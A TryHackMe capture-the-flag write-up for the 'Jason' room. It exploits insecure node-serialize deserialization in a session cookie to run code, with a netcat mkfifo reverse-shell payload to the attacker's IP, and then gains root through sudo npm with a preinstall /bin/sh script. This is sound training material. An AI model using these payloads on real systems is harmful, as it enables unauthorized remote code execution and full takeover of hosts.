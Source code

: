 ```yaml
---
title: "TryHackMe - Jason"
author: Nasrallah
description: ""
date: 2023-05-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, nodejs, javascript, deserialization, sudo]
img_path: /assets/img/tryhackme/jason
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Jason](https://tryhackme.com/room/jason) from [TryHackMe](https://tryhackme.com). We find a node.js web site vulnerable to deserialization allowing remote code execution that leads to foothold. On the target box we can run npm as root so we exploit that to get a root shell.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.239.172                                                                                                                            
Host is up (0.094s latency).                                                                                                                                  
Not shown: 998 closed tcp ports (reset)                                                                                                                       
PORT   STATE SERVICE VERSION                                                                                                                                  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)                                                                             
| ssh-hostkey:                                                                                                                                                
|   3072 5b2d9d60a745de7a99203e4294ce193c (RSA)                                                                                                               
|   256 bf32780183af785ee7fe9c834a7daa6b (ECDSA)                                                                                                              
|_  256 12ab1380e5ad7307c848d5ca7c7de0af (ED25519)                                                                                                            
80/tcp open  http                                                                                                                                             
|_http-title: Horror LLC                                                                                                                                      
| fingerprint-strings:                                                                                                                                        
|   GetRequest:                                                                                                                                               
|     HTTP/1.1 200 OK                                                                                                                                         
|     Content-Type: text/html
|     Date: Mon, 29 May 2023 08:19:00 GMT

```

We found two open ports, 22 running OPENSSH and 80 is an http web server.

## Web

Let's navigate to the web page.

![](1.png)

The website is not completed yet, and we can sign up for a newsletter. Let's submit an email and intercept the request with burp.

![](2.png)

After submitting the email, we get a session cookie which is a base64 of `{"email":"hi@hi.me"}`

Now if we go to the website we can see our email

![](3.png)

# **Foothold**

With the help of this [article](https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e), let's test if the website is vulnerable to deserialization.

We use the following payload that will return the word `HACKED` if there is a vulnerability.

```javascript
_$$ND_FUNC$$_function (){ return 'HACKED'; }()
```

Let's put it in the email field.

```json
{"email":"_$$ND_FUNC$$_function (){ return 'HACKED'; }()"}
```

And encode it with base64.

```text
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXsgcmV0dXJuICdIQUNLRUQnOyB9KCkifQ==
```

Now we replace the old cookie with the one we just created and send a request.

![](4.png)

We got the word `HACKED` back, this means the website is vulnerable.

Now let's use another payload that give us remote code execution.

```javascript
_$$ND_FUNC$$_function(){require('child_process').exec('CMD', function(error,stdout, stderr) { console.log(stdout) });}()
```

We need to replace `CMD` with the command we want to execute, and in this case we can try getting a reverse shell using `nc mkfifo`

```js
_$$ND_FUNC$$_function(){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.76.240 9000 >/tmp/f', function(error,stdout, stderr) { console.log(stdout) });}()
```

Let's put the code above in the email field and encode it with base64 then send the request after setting up a netcat listener.

![](5.png)

We got a shell as `dylan`.

# **Privilege Escalation**

## Shell upgrade

On dylan's home directory i created a `.ssh` directory and uploaded my public key to it.

![](6.png)

Now used my private key to ssh as dylan.

![](7.png)

## dylan -->  root

Now let's check our privilege

```terminal
dylan@jason:~$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

We can run `npm` as root, checking [GTFOBins](https://gtfobins.github.io/gtfobins/npm/#sudo) we find a way to exploit that and get root.

```bash
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

The `TF=$(mktemp -d)` makes a temporary directory.

In `{"scripts": {"preinstall": "/bin/sh"}}`, the `scripts` object is used to define custom commands, and the `preinstall` is a key used to define a command that will be run before any packages, and in our case it's `/bin/sh` that gives us a root shell.

We put the script in `package.json` file that will be located in the temporary directory.

the `-C` option specifies the working directory. The `--unsafe-perm` is to run the scripts with root privileges and the `i` is for install

![](8.png)

We got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

